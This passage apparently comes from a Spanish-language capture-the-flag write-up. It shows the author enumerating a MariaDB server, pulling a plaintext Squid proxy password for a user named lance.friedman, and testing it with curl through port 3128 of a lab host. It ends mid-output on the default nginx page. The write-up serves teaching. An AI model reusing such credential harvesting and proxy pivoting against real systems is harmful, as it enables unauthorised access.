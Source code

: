 Comenzamos la enumeración de bases de datos y econtramos una que se llama `squid`. Recordemos del reconocimento de puertos abiertos que tenemos el puerto 3128 abierto el cual tiene un `Squid proxy`. Listando tablas de la base de datos logramos unas credenciales para este servicio

```bash
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| squid              |
+--------------------+
4 rows in set (0.001 sec)

MariaDB [(none)]> use squid;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [squid]> show tables;
+-----------------+
| Tables_in_squid |
+-----------------+
| passwd          |
+-----------------+
1 row in set (0.000 sec)

MariaDB [squid]> select * from passwd;
+----------------+---------------+---------+----------------+---------+
| user           | password      | enabled | fullname       | comment |
+----------------+---------------+---------+----------------+---------+
| lance.friedman | o>WJ5-jD<5^m3 |       1 | Lance Friedman |         |
+----------------+---------------+---------+----------------+---------+
1 row in set (0.001 sec)
```

### Puerto 3128

* * *

Procedemos a verificar las credenciales obtenidas

```bash
❯ curl --proxy 'http://lance.friedman:o>WJ5-jD<5^m3@10.10.11.131:3128' http://127.0.0.1
<!DOCTYPE html>
<html>
<head>
<title>Welcome to nginx!</title>
<style>
    body {
        width: 35em;
        margin: 0 auto;
        font-family: Tahoma, Verdana, Arial, sans-serif;
    }
</style>
</head>
<body>
<h1>Welcome to nginx!</h1>
<p>If you see this page, the nginx web server is successfully installed and
working. Further configuration is required.</p>

<p>For online documentation and support please refer to
<a href="http://nginx.org/">nginx.org</a>.<br/>
Commercial support is available at
```